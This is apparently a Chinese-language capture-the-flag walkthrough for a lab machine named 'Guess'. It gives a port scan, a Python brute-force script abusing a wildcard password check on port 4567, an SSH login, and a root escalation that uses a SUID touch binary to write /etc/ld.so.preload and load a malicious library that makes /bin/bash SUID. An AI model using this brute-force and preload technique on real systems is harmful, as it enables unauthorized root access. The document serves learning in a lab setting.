





# Guess_Ahiz

# 信息收集

```
nmap -p- 192.168.100.21
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-16 02:47 EDT
Nmap scan report for 192.168.100.21
Host is up (0.0022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
4567/tcp open  tram
MAC Address: 08:00:27:21:21:3A (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.58 seconds

```

## 4567端口

```
nc -nv 192.168.100.21 4567
(UNKNOWN) [192.168.100.21] 4567 (?) open
Input Password: 

```

## ssh登录泄漏用户名

```
ssh 192.168.100.21                                                                                 
The authenticity of host '192.168.100.21 (192.168.100.21)' can't be established.
ED25519 key fingerprint is: SHA256:MjoUe5ON03T2UcSPmlU3evmpGUywqf/3IUm0+1p77cI
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:44: [hashed name]
    ~/.ssh/known_hosts:50: [hashed name]
    ~/.ssh/known_hosts:52: [hashed name]
    ~/.ssh/known_hosts:53: [hashed name]
    ~/.ssh/known_hosts:54: [hashed name]
    ~/.ssh/known_hosts:56: [hashed name]
    ~/.ssh/known_hosts:59: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.100.21' (ED25519) to the list of known hosts.
Username: scdyh
kali@192.168.100.21's password: 

```

# ` 利用 4567测试`

发现输出结果不一样 爆破尝试

```
printf '*\n' | nc 192.168.100.21 4567
Input Password: Password correct
                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop]
└─$ printf 'a\n' | nc 192.168.100.21 4567
Input Password: Password incorrect

```



发现全是密码错误 因为一开始使用*时回显密码正确，*尝试用** 加后面爆破



成功 已经思路很明确了 利用* 测试出完整密码

测试了6-10位发现还不够

```
#!/usr/bin/env python3
import socket
import string

host = "192.168.100.21"
port = 4567

# 爆破字符集
chars = string.ascii_letters + string.digits

# 已知前缀
prefix = "A"

# 密码长度范围
min_len = 6
max_len = 10


def check_password(payload):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(3)

        s.connect((host, port))

        # 接收 Input Password:
        s.recv(1024)

        # 发送
        s.sendall((payload + "*\n").encode())

        result = s.recv(1024).decode(errors="ignore")

        s.close()

        return "Password correct" in result

    except Exception:
        return False


def brute(current):
    # 当前长度达到要求，测试
    if min_len <= len(current) <= max_len:
        payload = current + "*"

        if check_password(payload):
            print("[+] FOUND:", payload)

    # 达到最大长度停止
    if len(current) >= max_len:
        return

    # 继续追加字符
    for c in chars:
        new = current + c

        if check_password(new + "*"):
            print("[+] MATCH:", new + "*")
            brute(new)


print("[*] Start brute force")
print("[*] Prefix:", prefix)

brute(prefix)
```



继续加长度



得到密码

```
AyS4bOQNXhVV2wADT44C
```

# 通过ssh泄漏的用户名 连接ssh 

```
ssh scdyh@192.168.100.21
Username: scdyh
scdyh@192.168.100.21's password: 
Linux Guess 7.0.8-1-liquorix-amd64 #1 ZEN SMP PREEMPT liquorix 7.0-8.1~trixie (2026-05-15) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Apr 29 21:55:46 2026 from 192.168.193.14
scdyh@Guess:~$ ls
'Respect to flower.'   touch   user.txt
scdyh@Guess:~$ cat user.txt 
flag{user-5738612a8388c5be297c781beb9c73b8}

```

# sudo

```
sudo -l
[sudo] password for scdyh: 
Sorry, user scdyh may not run sudo on Guess.

```

‍

‍

# 枚举suid

```
find / -user root -perm /4000 2>/dev/null
```

```
scdyh@Guess:~$ find / -user root -perm /4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/su
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chfn
/home/scdyh/touch

```

发现/home/scdyh/touch

```
ls -al touch 
-rwsr-sr-x 1 root root 88520 May 17 05:14 touch


rws：s 是 SUID 位，表示以文件所有者（root）的权限执行
sr-x：s 是 SGID 位
```

# 分析

```
文件属于 root，但放在普通用户 scdyh 的家目录下
这意味着：运行这个 touch，进程临时获得 root 权限
SUID 程序以 root 身份运行，但创建文件时的权限受当前 shell 的 umask 控制
默认 umask 通常是 0022，创建的文件可能是 644（-rw-r--r--），不可写
如果把 umask 改成 0000，创建的文件权限就是 666（-rw-rw-rw-），任何人可写！
当你能创建/写入一个 root 拥有的文件时，下一步就是：哪个 root 文件被写入后能提权？

Linux 动态链接器 ld.so 有几个关键配置文件：

    /etc/ld.so.preload —— 系统级预加载共享库，任何程序启动前都会加载这里指定的 .so 文件
    /etc/ld.so.conf —— 库搜索路径（通常不可直接利用）

/etc/ld.so.preload 的特殊性：

    它不需要原本存在（如果没有这个文件，touch 可以创建它）
    一旦写入恶意库路径，之后启动的任何程序（包括 root 运行的程序）都会加载你的恶意代码
    恶意代码在 constructor 函数中执行，自动获得 root 权限


```

# 提权

```
cat > /tmp/exploit.c << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>

void __attribute__((constructor)) init() {
    // 直接调用系统调用，不启动新进程
    setuid(0);
    setgid(0);
    
    // 用 chmod() 系统调用，不用 system("chmod ...")
    chmod("/bin/bash", 04755);  // SUID + 原始权限
    
    // 清理痕迹，防止递归
    unlink("/etc/ld.so.preload");
}                           
EOF

```

‍

```
# 1. 编译新的 exploit.so（在 /tmp 目录下）

gcc -fPIC -shared -o /tmp/exploit.so /tmp/exploit.c -nostartfiles

# 2. 回到 home 目录（SUID touch 在这里）
cd /home/scdyh

# 3. 设置 umask 为 0000（让 root 创建的文件可被写入）
umask 0000

# 4. 用 SUID touch 创建 /etc/ld.so.preload
./touch /etc/ld.so.preload

# 5. 确认权限（应该是 root 拥有，666 权限）
ls -la /etc/ld.so.preload

# 6. 写入恶意库路径
echo "/tmp/exploit.so" > /etc/ld.so.preload

# 7. 触发！运行任意命令加载恶意库
id

# 8. 检查 bash 是否被加了 SUID
ls -la /bin/bash
# 期望看到：-rwsr-xr-x 1 root root ... /bin/bash

# 9. 提权！
bash -p

# 10. 确认 root 身份
id
#看到：uid=0(root) gid=0(root)
```



```
flag{root-7897e60dbb8302090c5d5c116fbb8a42}
```
